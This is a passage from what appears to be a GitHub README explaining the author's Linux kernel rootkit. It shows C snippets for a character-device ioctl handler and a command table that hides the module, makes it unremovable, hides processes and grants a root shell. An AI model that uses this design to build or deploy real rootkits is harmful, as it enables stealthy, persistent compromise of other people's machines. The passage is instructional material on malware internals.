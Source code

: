         3. In order to read commands from registered Character Device Driver (i.e. commands which are stored inside Character Device Driver from <ins>Userspace</ins>), I created an array named **`value`** with size of MAX_LIMIT(=20) to store it and be compared against those provided/hardcoded commands present in the rootkit.

        ```c
        // For size of array
        #define MAX_LIMIT 20

        // To copy value from userspace
        char value[MAX_LIMIT];
        ```
        ```c
        // =========================== Available Commands =======================

        static char rootkit_hide[] = "hide";            // command to hide rootkit => In this mode, in no way this rootkit be removable => rootkit_remove will not work
        static char rootkit_show[] = "show";            // command to unhide rootkit => In this mode, rootkit_protect and rootkit_remove will work effectively
        static char rootkit_protect[] = "protect";      // command to make rootkit unremovable (even if it can be seen in usermode).
        static char rootkit_remove[] = "remove";        // command to make rootkit removable
        static char process[] = "process";              // command to hide/unhide running process/implant
        static char root[] = "root";                    // command to get root shell  
        ```
        The array named **`value`** will be checked against these above mentioned commands, to perform specific tasks.
        ```c
        // ======= This function will be called when somebody write IOCTL on the Device file =====

        static long etx_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
        {
        switch(cmd) {
                case WR_VALUE:
                        /*
                         * copy_from_user():
                         * - a direct read from the userspace address and write to the kernelspace address
                         * Or, Copy data from User space to Kernel Space
                         */
                        if( copy_from_user(value ,(int32_t*) arg, MAX_LIMIT) )
                        {
                                pr_err("Data Write : Err!\n");
                        }
                        pr_info("               Value got from device file= %s\n", value);

                        ...
                        ...
                    }
        }
        ```
        I'm skipping all those string comparisons present after this snippet, as it is pretty much an easy thing to understand, same as C programming in Usermode.

        4. Registering and Unregistering the Character Device:
        If you follow my project [repo](https://github.com/reveng007/reveng_rtkit/blob/7ae65c6edaeab1b9bea0e8aef29803a6e1f48135/kernel_src/reveng_rtkit.c#L322), you can get the concept of registering, initializing and unregistering the character device file.
